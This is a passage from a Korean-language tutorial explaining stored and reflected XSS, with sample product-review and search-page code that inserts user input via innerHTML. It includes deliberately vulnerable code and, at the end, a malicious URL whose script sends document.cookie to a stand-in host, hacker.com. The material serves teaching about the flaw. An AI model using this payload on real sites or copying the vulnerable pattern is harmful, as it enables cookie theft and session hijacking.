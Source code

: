 - **공격자가 삽입한 악성 스크립트 예시**

  ```html
  정말 좋은 상품이네요!
  <script>
  	alert('당신의 쿠키 정보가 탈취되었습니다!');
  </script>
  ```

- **공격 과정**

  1. 공격자가 위와 같은 악성 `<script>` 태그가 포함된 후기를 작성하면, 이 내용은 서버의 데이터베이스에 저장된다.
  2. 이후 일반 사용자가 후기 페이지에 접속하면, 위에서 보여준 JS 코드가 서버에서 해당 후기를 불러온다.
  3. `innerHTML`을 사용해 필터링 없이 DOM에 삽입되면서, `<script>`가 실행된다.
  4. 공격자의 스크립트가 실행되어 사용자의 브라우저에서 경고창이 뜬다. 실제 공격에서는 `document.cookie`를 탈취하거나 외부 서버로 전송하는 코드가 삽입될 수 있다.

  ```html
  <div>
  	정말 좋은 상품이네요!
  	<script>
  		alert('당신의 쿠키 정보가 탈취되었습니다!');
  	</script>
  </div>
  ```

#### ⚠️ 문제의 핵심

`innerHTML`을 통해 사용자 입력을 그대로 DOM에 삽입할 경우, 저장형 XSS에 취약해진다. 이는 자바스크립트 환경에서도 흔히 발생하는 실수이며, 서버에서 필터링되지 않은 데이터를 클라이언트에서 그대로 사용하면 이런 공격에 노출될 수 있다.

### 2. 반사형 XSS (Reflected XSS)

반사형 XSS는 악성 스크립트가 서버에 저장되지는 않지만, **사용자의 요청(Request)에 포함되어**, 서버의 응답(Response)에 그대로 **반사되어 브라우저에서 실행되는 방식**이다.

#### 📝 시나리오 예시

어떤 웹사이트에 **검색 기능**이 있다고 가정해보자. 사용자가 검색어를 입력하면, 해당 검색어를 페이지에 표시하면서 검색 결과를 보여주는 구조이다.

- **취약한 프론트엔드 코드 (Vanilla JS 예시)**

  ```js
  // URL의 query string에서 검색어(keyword)를 추출
  const params = new URLSearchParams(location.search);
  const keyword = params.get('keyword');

  // 검색어를 필터링 없이 DOM에 삽입
  const resultTitle = document.getElementById('result-title');
  resultTitle.innerHTML = `<h2>${keyword}에 대한 검색 결과</h2>`; // ⚠️ 위험한 코드
  ```

- **공격자가 만든 악성 URL**

  공격자는 `keyword` 파라미터에 스크립트를 삽입하여 아래와 같은 URL을 만든다.

  ```
  https://example.com/search?keyword=<script>document.location='http://hacker.com/steal?cookie='+document.cookie</script>
  ```
